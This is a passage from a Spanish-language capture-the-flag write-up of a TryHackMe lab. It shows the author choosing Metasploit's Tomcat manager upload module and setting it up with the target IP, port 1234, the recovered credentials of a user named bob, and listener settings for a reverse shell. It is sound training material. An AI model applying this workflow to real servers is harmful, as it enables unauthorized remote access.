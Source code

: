 Módulo Seleccionado:

El módulo tomcat_mgr_deploy es la opción ideal, ya que automatiza todo el proceso: autenticación, creación del payload (el webshell o reverse shell) y su despliegue en el servidor.

Conclusión del Paso 13:

Hemos identificado el módulo perfecto en Metasploit para automatizar la explotación del servidor Tomcat.

El siguiente paso es configurar este exploit con la dirección IP del objetivo, el puerto, las credenciales de bob, y la configuración de nuestra reverse shell para conseguir nuestro primer acceso a la máquina.


## Paso 14: Configuración del Exploit en Metasploit

Tras seleccionar el módulo exploit/multi/http/tomcat_mgr_upload (un módulo similar y también "excellent" al deploy), el siguiente paso fue configurarlo para asegurar la correcta comunicación con el objetivo y la obtención de la reverse shell.

Comandos Realizados:

Carga del Módulo: Se carga el módulo seleccionado.

Consulta de Opciones: Se ejecuta show options para ver qué parámetros son necesarios.

<img width="1368" height="543" alt="Consultamos opciones del exploit" src="https://github.com/user-attachments/assets/e142eeb2-684e-46fc-9627-e23a51585506" />


Bash

msf6 > use exploit/multi/http/tomcat_mgr_upload

msf6 exploit(multi/http/tomcat_mgr_upload) > show options

⚙️ Configuración del Exploit

La tabla de opciones muestra los parámetros críticos que deben ser establecidos:

Opción de Metasploit	Valor Requerido	Propósito	Estado de la Configuración

RHOSTS	10.10.221.85	La dirección IP de la máquina objetivo.	Se debe establecer.

RPORT	80	El puerto remoto (Target Port).	¡Cuidado! El Manager App está en el puerto 1234, no en el 80.

HttpUsername	bob	Nombre de usuario obtenido en el Paso 7.	Se debe establecer.

HttpPassword	[Password de Bob]	Contraseña obtenida en el Paso 7.	Se debe establecer.

LHOST	10.0.2.15	Tu IP de ataque (Listening Host).	Configurado. Al final tuve que configurarlo con la maquina de Ataque de TryHackMe

LPORT	4444	Puerto de escucha para la reverse shell.	Configurado.


Ajuste Crítico:

Basándonos en la enumeración (Paso 2 y 9), el servicio Tomcat Manager reside en el puerto 1234, no en el 80. Este ajuste es fundamental para que la explotación funcione.
